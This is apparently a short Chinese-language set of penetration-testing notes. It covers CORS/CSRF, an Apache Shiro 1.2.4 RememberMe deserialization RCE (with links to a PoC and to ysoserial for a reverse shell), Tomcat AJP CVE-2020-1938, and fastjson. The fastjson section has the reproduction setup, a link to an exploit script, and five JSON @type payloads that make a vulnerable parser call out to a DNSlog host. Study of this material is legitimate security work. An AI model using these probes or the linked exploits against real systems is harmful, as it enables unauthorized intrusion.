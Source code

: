 ```yaml
---
title: 渗透测试
---
```


渗透测试的技巧和工具。
tmp number/email：https://www.smsk.cc/

# CROS和CSRF

**参考文档：**
[跨源资源共享（CORS）](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)

#  Apache Shiro RememberMe 1.2.4 反序列化过程命令执行漏洞
1. poc验证
   
   https://github.com/Medicean/VulApps/blob/master/s/shiro/1/poc.py

2. 反弹shell
   - 下载：https://github.com/frohoff/ysoserial.git 
   

# Tomcat Ajp(CVE-2020-1938)

## 安装版

## spring boot embedded


# fastjson专题

建议在Linux下操作，我在Windows上操作好久没复现出来，遇到很多坑，最后在Linux成功复现，后来检查貌似是Windows上编译的class文件有问题。复现环境如下。  
系统版本：kali-2020.3  
jdk版本：jdk-8u151-linux-x64.tar.gz

## 漏洞探测
1.  检查和利用脚本（谨慎使用，测试结果存在泄露风险，毕竟调用的是别人的API）
    [github](https://github.com/mrknow001/fastjson_rec_exploit.git)
2.  探测Fastjson:

    >{"rand1":{"@type":"java.net.InetAddress","val":"http://dnslog"}}

    >{"rand2":{"@type":"java.net.Inet4Address","val":"http://dnslog"}}

    >{"rand3":{"@type":"java.net.Inet6Address","val":"http://dnslog"}}

    >{"rand4":{"@type":"java.net.InetSocketAddress"{"address":,"val":"http://dnslog"}}}

    >{"rand5":{"@type":"java.net.URL","val":"http://dnslog"}}

